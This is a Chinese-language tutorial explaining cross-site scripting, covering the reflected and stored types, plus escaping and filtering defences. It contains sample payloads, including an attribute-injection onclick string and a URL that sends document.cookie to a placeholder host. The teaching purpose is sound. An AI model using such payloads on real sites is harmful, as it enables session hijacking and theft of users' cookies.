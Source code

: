 ## 跨站脚本攻击(Cross-site Script)
- <strong>说明</strong>：攻击者通过web页面插入恶意的script代码，当用户访问页面时，嵌入在页面里的script代码会被执行，窃取用户的敏感信息(例如获取用户的 Cookie、导航到恶意网站、携带木马等)，达到而已攻击的目的。
- <strong>本质</strong>：xss攻击其实是因为浏览器将用户的输入内容，错误地当成了js脚本执行，导致了不好的后果。
- <strong>要点</strong>：大部分的 XSS 漏洞都是由于没有处理好用户的输入，导致恶意脚本在浏览器中执行。任何输入提交数据的地方都有可能存在 XSS。

#### XSS攻击的攻击类型
* ##### Reflected XSS（基于反射的XSS攻击）
用户在页面输入框中输入数据，通过 get 或者 post 方法向服务器端传递数据，输入的数据一般是放在 URL 的 query string 中，或者是 form 表单中，如果服务端没有对这些数据进行过滤、验证或者编码，直接将用户输入的数据呈现出来，就可能会造成反射型 XSS。反射型 XSS 是非常普遍的，其危害程度通常较小，但是某些反射型 XSS 还是会造成严重后果的。
<strong>重点</strong>：黑客通常通过构造一个包含 XSS 代码的 URL，诱导用户点击链接，触发 XSS 代码，达到劫持访问、获取 cookies 的目的。
###### 场景示例：
```
1. 做个假设，当亚马逊在搜索书籍，搜不到书的时候显示提交的名称。

2. 在搜索框搜索内容，填入“<script>alert('handsome boy')</script>”, 点击搜索。

3. 当前端页面没有对返回的数据进行过滤，直接显示在页面上， 这时就会alert那个字符串出来。

4. 进而可以构造获取用户cookies的地址，通过QQ群或者垃圾邮件，来让其他人点击这个地址：

http://www.amazon.cn/search?name=<script>document.location='http://xxx/get?cookie='+document.cookie</script>

PS：这个地址当然是没效的，只是举例子而已。
```
###### 防范措施：
- 前端在显示服务端数据时候，不仅是标签内容需要过滤、转义，就连属性值也都可能需要。

- 后端接收请求时，验证请求是否为攻击请求，攻击则屏蔽。
```
标签：

<span><script>alert('handsome boy')</script></span>
转义

<span>&lt;script&gt;alert(&#39;handsome boy&#39;)&lt;/script&gt</span>
属性：

如果一个input的value属性值是

琅琊榜" onclick=javascript:alert('handsome boy')
就可能出现

<input type="text" value="琅琊榜" onclick=javascript:alert('handsome boy')">
点击input导致攻击脚本被执行，解决方式可以对script或者双引号进行过滤。
```
![反射型攻击](http://upload-images.jianshu.io/upload_images/11994763-4fb13f0a235e05b6?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
* ##### Stored XSS（基于存储的XSS攻击）
存储型攻击方式和反射型最大的区别就是不通过URL来传播，而是利用站点本身合法的存储结构，比如评论。任何用户都可以通过站点提供的接口提交评论内容，这些评论内容都被存储到服务器的数据库。当用户访问这些评论的时候，服务器从数据库提取内容插入到页面反馈给用户。如果评论内容本身是具备攻击性内容，用户无一幸免。
![存储型攻击](http://upload-images.jianshu.io/upload_images/11994763-e1f821758ee1d047?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
* ##### DOM-based or local XSS（基于DOM或本地的XSS攻击）



#### XSS脚本攻击案例
- [新浪微博XSS攻击](http://soft.yesky.com/security/156/30179156.shtml)
- [人人网遭受XSS攻击](https://www.freebuf.com/articles/6295.html)

#### 参考资料
* [Web 安全之 XSS](http://web.jobbole.com/94665/?utm_source=blog.jobbole.com&utm_medium=relatedPosts)
* [浏览器是如何解码的](http://xuelinf.github.io/2016/05/18/%E7%BC%96%E7%A0%81%E4%B8%8E%E8%A7%A3%E7%A0%81-%E6%B5%8F%E8%A7%88%E5%99%A8%E5%81%9A%E4%BA%86%E4%BB%80%E4%B9%88/)
